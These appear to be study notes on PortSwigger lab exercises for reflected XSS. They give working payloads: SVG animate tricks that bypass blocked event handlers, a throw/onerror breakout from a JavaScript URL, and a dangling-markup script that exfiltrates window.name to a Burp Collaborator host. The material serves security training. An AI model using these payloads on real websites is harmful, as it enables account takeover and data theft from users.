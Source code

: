 
##### Reflected XSS with event handlers and href attributes blocked
![[Pasted image 20231026124137.png]]
![[Pasted image 20231026124242.png]]
Create an svg object, defined by a text, and with the tag animate set the a link to alert
XSS on animated tag
```
dosn't work:
<svg><animate xlink:href=#xss attributeName=href values=javascript:alert(1) /><a id=xss><text x=20 y=20>XSS</text></a>

works:
<svg><a><animate attributeName=href values=javascript:alert(1) />id=xss><text x=20 y=20>XSS</text></a>
<svg><a id=xss><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>CLICK HERE</text></a>
```


##### Reflected XSS in a JavaScript URL with some characters blocked
![[Pasted image 20231026124736.png]]
```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```


##### Reflected XSS protected by very strict CSP, with dangling markup attack

```
Log in to the lab using the account provided above.
Examine the change email function. Observe that there is an XSS vulnerability in the email parameter.
Go to the Collaborator tab.
Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.

Back in the lab, go to the exploit server and add the following code, replacing YOUR-LAB-ID and YOUR-EXPLOIT-SERVER-ID with your lab ID and exploit server ID respectively, and replacing YOUR-COLLABORATOR-ID with the payload that you just copied from Burp Collaborator.
```

```
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
